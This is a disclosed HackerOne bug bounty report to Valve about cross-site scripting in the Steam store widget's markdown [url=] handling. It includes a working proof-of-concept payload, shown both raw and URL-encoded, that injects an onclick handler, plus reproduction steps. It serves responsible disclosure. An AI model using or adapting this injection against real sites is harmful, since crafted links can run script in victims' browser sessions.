 # Xss was found by exploiting the URL markdown on http://store.steampowered.com

## Report Details
- **Report ID**: 313250
- **URL**: https://hackerone.com/reports/313250
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-07T17:13:29.305Z
- **Disclosed**: 2018-05-09T17:40:20.026Z

## Reporter
- **Username**: kenziy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
Hello guys
I found an xss vulnerability on store.steampowered.com markdown

#POC
http://store.steampowered.com/widget/386360/?t=[url=google.com:/onclick=%27alert(document.domain)%27[url=]]xss[/url]

#Here is my exploit
```
[url=google.com:/onclick='alert(document.domain)'[url=]]xss[/url]
```
#Steps
1 - go to any product
2 - click embed
3 - The markdown for widgets area is vulnerable
{F261131}
4: http://store.steampowered.com/widget/386360/?t=[url=google.com:/onclick=%27alert(document.domain)%27[url=]]xss[/url]
{F261134}

My research was only limited on the widgets area I'm not totally sure if other markdown that is using [url=site.com] are vulnerable also. I will continue my research for this coz I believe it has some other area that are still affected by this issue.

Cheers
Kenziy

## Impact

XSS attack was possible by sending the vulnerable link to the target

## Attachments
- vulnerable-area.png
- xss.png
